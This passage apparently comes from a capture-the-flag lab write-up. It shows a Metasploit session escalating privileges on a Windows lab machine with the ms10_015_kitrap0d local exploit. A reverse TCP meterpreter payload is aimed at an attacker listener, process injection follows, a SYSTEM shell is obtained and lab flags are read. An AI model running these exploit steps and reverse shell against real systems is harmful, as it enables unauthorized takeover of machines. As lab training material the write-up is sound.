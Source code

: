        #  Name                                     Disclosure Date  Rank   Check  Description
       -  ----                                     ---------------  ----   -----  -----------
       0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D


    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_015_kitrap0d

// We did found module called ms10_015_kitrap0d

    msf6 post(multi/recon/local_exploit_suggester) > use 0
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

    msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
    session => 1
    msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost 10.10.17.8
    lhost => 10.10.17.8
    msf6 exploit(windows/local/ms10_015_kitrap0d) > set lport 1445
    lport => 1445
    msf6 exploit(windows/local/ms10_015_kitrap0d) > exploit 

    [*] Started reverse TCP handler on 10.10.17.8:1445 
    [*] Launching notepad to host the exploit...
    [+] Process 3292 launched.
    [*] Reflectively injecting the exploit DLL into 3292...
    [*] Injecting exploit into 3292 ...
    [*] Exploit injected. Injecting payload into 3292...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (175174 bytes) to 10.10.10.5
    [*] Meterpreter session 2 opened (10.10.17.8:1445 -> 10.10.10.5:49240) at 2021-08-07 10:45:38 +0000

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

// We got NT/SYSTEM !!!

    meterpreter > cat user.txt.txt 
    9ecdd6a3a...................

    meterpreter > cat root.txt 
    e621a0b50...................
